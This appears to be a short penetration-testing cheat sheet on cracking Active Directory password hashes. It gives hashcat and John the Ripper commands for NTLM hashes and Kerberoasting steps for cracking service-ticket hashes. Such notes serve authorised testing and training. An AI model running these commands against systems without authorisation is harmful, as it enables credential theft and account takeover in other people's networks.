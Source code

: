 # Cracking AD Hashes

We can find Hashcat hash modes here:

{% embed url="https://hashcat.net/wiki/doku.php?id=example_hashes" %}
Hashcat Example Hashes
{% endembed %}

Cracking NT (NTLM) hashes

```shell
$ hashcat -m 1000 -a 0 hashes.txt [path/to/wordlist.txt] -o cracked.txt
$ john --wordlist=[path/to/wordlist.txt] hashes.txt
```

> Note: It is no longer required to specify the mode. (-m)

Kerberoasting - Crack SPN hashes via. exported `.kirbi` tickets.

* Example Walkthrough: https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting

```shell
# Kerberoast
$ python3 tgsrepcrack.py rockyou.txt [ticket.kirbi]  # locally crack hashes
PS> Invoke-Kerberoast.ps1                            # crack hashes on target

# John the Ripper
$ python3 kirbi2john.py -o johncrackfile ticket.kirbi  # convert ticket to john file
$ john --wordlist=rockyou.txt johncrackfile
```
